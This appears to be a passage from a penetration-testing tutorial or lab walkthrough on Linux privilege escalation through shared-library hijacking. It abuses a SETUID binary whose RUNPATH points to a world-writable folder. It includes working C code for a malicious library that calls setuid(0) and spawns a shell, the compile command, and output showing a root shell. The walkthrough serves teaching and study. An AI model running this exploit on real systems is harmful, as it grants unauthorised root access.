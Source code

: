 Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

> ls -la payroll

    -rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll


We can use <ldd> (*https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html*) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

> ldd payroll

    linux-vdso.so.1 =>  (0x00007ffcb3133000)
    libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)


We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the <readelf> (*https://man7.org/linux/man-pages/man1/readelf.1.html*) utility.

> readelf -d payroll  | grep PATH

    0x000000000000001d (RUNPATH)            Library runpath: [/development]

The configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

> ls -la /development/

    total 8
    drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
    drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../


Before compiling a library, we need to find the function name called by the binary.

> cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

> ldd payroll

    linux-vdso.so.1 (0x00007ffd22bbc000)
    libshared.so => /development/libshared.so (0x00007f0c13112000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)

>  ./payroll 

    ./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.so`, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

> Code : c
    #include<stdio.h>
    #include<stdlib.h>

    void dbquery() {
        printf("Malicious library loaded\n");
        setuid(0);
        system("/bin/sh -p");
    } 

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh when called. Compile it using GCC.

> gcc src.c -fPIC -shared -o /development/libshared.so

Executing the binary again should display the banner and pops a root shell.

> ./payroll 

    ***************Inlane Freight Employee Database***************

    Malicious library loaded
    # id
    uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)